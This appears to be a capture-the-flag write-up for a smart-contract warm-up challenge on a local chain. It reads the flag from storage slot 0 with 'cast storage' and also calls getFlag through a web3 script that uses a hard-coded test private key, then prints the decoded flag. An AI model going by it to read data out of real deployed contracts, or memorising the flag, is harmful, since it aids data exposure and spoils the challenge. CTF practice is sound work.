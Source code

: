 ## solution 1: directly get flag from contract storage:
flag is at slot 0:
$> cast storage 0x5FbDB2315678afecb367f032d93F642f64180aa3 0 --rpc-url http://127.0.0.1:10500



## solution 2: call `getFlag` function:
```python
#!/usr/bin/python3
from web3 import Web3

rpc_url = 'http://127.0.0.1:10500/'
contract_address = '0x5FbDB2315678afecb367f032d93F642f64180aa3'
private_key = '0x2a871d0798f97d79848a013d4936a73bf4cc922c825d33c1cf7073dff6d409c6'


w3 = Web3(Web3.HTTPProvider(rpc_url))
account = w3.eth.account.from_key(private_key).address

abi = [
    {
        "inputs": [{"internalType": "bool", "name": "_check", "type": "bool"}],
        "name": "getFlag",
        "outputs": [{"internalType": "bytes32", "name": "", "type": "bytes32"}],
        "stateMutability": "nonpayable",
        "type": "function"
    }
]

contract = w3.eth.contract(address=contract_address, abi=abi)
txn = contract.functions.getFlag(True).build_transaction({
    'from': account,
    'nonce': w3.eth.get_transaction_count(account),
    'gas': 2000000,
    'gasPrice': w3.to_wei('5', 'gwei')
})

signed_txn = w3.eth.account.sign_transaction(txn, private_key=private_key)
tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

result = contract.functions.getFlag(True).call()

flag = result.decode('utf-8').rstrip('\x00')
print(flag)
```









## flag:
0x554354467b5734726d55705f6e305f707231766174455f443474347d00000000
after hex decode:
UCTF{W4rmUp_n0_pr1vatE_D4t4}


















